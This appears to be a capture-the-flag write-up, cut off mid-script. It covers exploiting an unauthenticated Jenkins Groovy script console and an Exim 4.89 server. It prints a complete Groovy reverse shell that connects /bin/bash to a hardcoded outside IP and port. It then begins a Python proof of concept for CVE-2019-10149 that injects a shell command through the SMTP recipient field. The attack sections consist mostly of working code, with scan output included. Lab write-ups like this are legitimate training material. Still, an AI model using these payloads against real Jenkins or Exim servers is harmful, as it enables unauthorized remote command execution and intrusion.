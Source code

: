 ```bash
+ Uncommon header 'x-hudson-cli-port' found, with contents: 40801
+ Uncommon header 'x-instance-identity' found, with contents: MIIBIjANBgkqhkiG9w0BAQEFAAOCAQ8AMIIBCgKCAQEA2caz2kFq5xG+0yUT4cxGJW7iYA4LaG0p9w4ULNnrnlVIAmOdNAefd0VELXCfl3dyPtP2LUTN1piT66vhsfzYyaD85d4vCyiyl27N5yxZY2wOqR4jBUsElHarO0iRaSHZYdg6nPPAJvRutHPcQkW/JvSvAZjgLxud3ke9ZC9ArKpWpZPdgPcRXlq1p0a7G9Ss/RbP8Nd3EsFk4julNfWwMwNM5gJ/zwKgBTxZclT0WXY/MevHGJi2At9SCCPKiSCfwxzjzp1+9KxPGyGvysJu08kehSfwT4TWDdCHQo8C8zTb3iuJDBA0sPq/dz5ETPa67vK8SnLPGtES2yJ3DTG66wIDAQAB
+ Uncommon header 'x-jenkins-cli-port' found, with contents: 40801
+ Uncommon header 'x-hudson' found, with contents: 1.395
+ Uncommon header 'x-jenkins-cli2-port' found, with contents: 40801
+ Uncommon header 'x-jenkins-session' found, with contents: a5ed1c9e
+ Uncommon header 'x-jenkins' found, with contents: 1.637
+ Uncommon header 'x-ssh-endpoint' found, with contents: localhost:41811
+ Uncommon header 'x-hudson-theme' found, with contents: default
+ /jenkins/manage: Jenkins/Hudson Management console accessible without authentication.
+ /jenkins/script: Jenkins/Hudson Groovy Script console accessible without authentication. This allows to execution of shell commands.
+ /manager/status: Default Tomcat Server Status interface found
+ 7802 requests: 0 error(s) and 24 item(s) reported on remote host
+ End Time:           2022-12-10 00:39:24 (GMT1) (2057 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

It found the page `/jenkins/script` allowing execution of shell commands without authentification.

This page executes 'Groovy' scripts. I used this reverse shell in Groovy:

```groovy
String host="193.161.193.99";int port=24193;String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

And I got a shell!

After running `find / -iname 'flag*'`, I found the flag in `/usr/local/share/man/FLAG.txt`.

## Service

### Eskimo 1

After running nmap, I’ve found that the service running behind the port is Exim 4.89.

I searched on Google for CVE and I found the **CVE-2019-10149.** I used it for RCE.

I used the POC of MNEMO-CERT as a base:

```python
#!/usr/bin/python3
import sys, socket, argparse

class exim_rce(object):
        def smtp_connect(self, hex_cmd, exim):
                message = "Received: 1\nReceived: 2\nReceived: 3\nReceived: 4\nReceived: 5\nReceived: 6\nReceived: 7\nReceived: 8\nReceived: 9\nReceived: 10\nReceived: 11\nReceived: 12\nReceived: 13\nReceived: 14\nReceived: 15\nReceived: 16\nReceived: 17\nReceived: 18\nReceived: 19\nReceived: 20\nReceived: 21\nReceived: 22\nReceived: 23\nReceived: 24\nReceived: 25\nReceived: 26\nReceived: 27\nReceived: 28\nReceived: 29\nReceived: 30\nReceived: 31"
                rcpt = r"<${run{\x2Fbin\x2Fbash\t-c\t\x22" + hex_cmd + r"\x22}}@localhost>"
                server = exim

                try:
                        print("[+] Trying to connect to the server")
```